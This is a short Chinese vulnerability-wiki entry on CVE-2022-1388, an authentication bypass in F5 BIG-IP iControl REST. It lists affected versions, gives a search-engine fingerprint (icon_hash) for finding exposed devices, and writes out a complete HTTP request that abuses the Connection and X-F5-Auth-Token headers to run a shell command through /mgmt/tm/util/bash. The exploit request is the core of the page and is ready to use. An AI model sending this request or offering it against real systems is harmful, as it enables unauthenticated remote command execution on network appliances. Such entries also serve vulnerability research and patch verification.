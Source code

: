 # F5 BIG-IP iControl REST身份认证绕过漏洞 CVE-2022-1388

## 漏洞描述

BIG-IP 是 F5 公司的一款应用交付服务是面向以应用为中心的世界先进技术。借助 BIG-IP 应用程序交付控制器保持应用程序正常运行。BIG-IP 本地流量管理器 (LTM) 和 BIG-IP DNS 能够处理应用程序流量并保护基础设施。未经身份验证的攻击者可以通过管理端口或自身 IP 地址对 BIG-IP 系统进行网络访问，执行任意系统命令、创建或删除文件或禁用服务。

## 漏洞影响

<a-checkbox checked>11.6.1-16.1.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="-335242539"</a-checkbox></br>

## 漏洞复现

登录页面

![image-20220509184545493](/assets/PeiQi-Wiki/img/image-20220509184545493.png)

发送请求包(Host设为localhost)

```java
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: a
Connection: close, X-F5-Auth-Token
Content-Length: 39

{"command":"run","utilCmdArgs":"-c id"}
```

![img](/assets/PeiQi-Wiki/img/1652093045231-d532fbbd-7b56-4f58-a7a6-75d317750ad1.png)